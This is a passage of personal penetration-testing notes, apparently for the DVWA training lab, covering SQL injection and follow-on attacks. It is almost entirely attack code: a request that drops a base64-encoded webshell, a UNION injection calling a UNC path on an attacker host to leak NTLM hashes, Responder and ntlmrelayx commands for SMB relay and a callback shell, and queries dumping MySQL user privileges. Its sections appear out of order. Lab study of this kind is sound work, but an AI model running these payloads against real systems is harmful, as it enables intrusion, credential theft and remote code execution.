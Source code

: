 - Base64 encoded

```
http://dvwa.local/dvwa/eval_php.php?evaluate=if(file_put_contents('webshell.php', base64_decode(<base64_encoded>))){ echo 1;} else {echo 2;}
```

##### 4.2.5.1.4 - NTLM Hashes (Out-of-band) via Authenticated SMB Relay

TODO: Check the links in the references to check other ways to exploit UNC paths.

- Run [[02 - Responder|Responder]] to grab the NTLM hashes.

```sql
' UNION SELECT NULL, LOAD_FILE('\\\\<attacker_IP>\\snare.txt')#
```

- Responder

```
$ sudo responder -I <interface> -A
```

- Metasploit Framework

```
smb_relay
```

##### 4.2.5.1.5 - Authenticated SMB Relay Callback Shell (Out-of-band)

- Execute commands

```
$ sudo impacket-ntlmrelayx -t smb://dvwa.local -smb2support -c <commands>
```

- Retrieve a callback shell

```
$ sudo impacket-ntlmrelayx -t smb://dvwa.local -smb2support -e shell.exe
```

#### 4.2.5.2 - Exploit via DUMPFILE

### 4.1.2 - Enumerate Database User Privileges

TODO: Include Create_priv

```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'SELECT', '->', Select_priv, '\n', user, '->', 'INSERT', '->', Insert_priv, '\n', user, '->', 'UPDATE', '->', Update_priv, '\n', user, '->', 'DELETE', '->', Delete_priv, '\n', user, '->', 'DROP', '->', Drop_priv) FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'SELECT', '->', Select_priv, '\n', user, '->', 'INSERT', '->', Insert_priv, '\n', user, '->', 'UPDATE', '->', Update_priv, '\n', user, '->', 'DELETE', '->', Delete_priv, '\n', user, '->', 'DROP', '->', Drop_priv) FROM mysql.user WHERE user = 'dvwa'#

' UNION SELECT NULL, CONCAT(user, '->', 'SELECT', '->', Select_priv, '\n', user, '->', 'INSERT', '->', Insert_priv, '\n', user, '->', 'UPDATE', '->', Update_priv, '\n', user, '->', 'DELETE', '->', Delete_priv, '\n', user, '->', 'DROP', '->', Drop_priv) FROM mysql.user WHERE Select_priv = 'Y' OR Insert_priv = 'Y' OR Update_priv = 'Y' OR Delete_priv = 'Y' OR Drop_priv = 'Y'#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE GRANTEE LIKE "'dvwa'%"#

```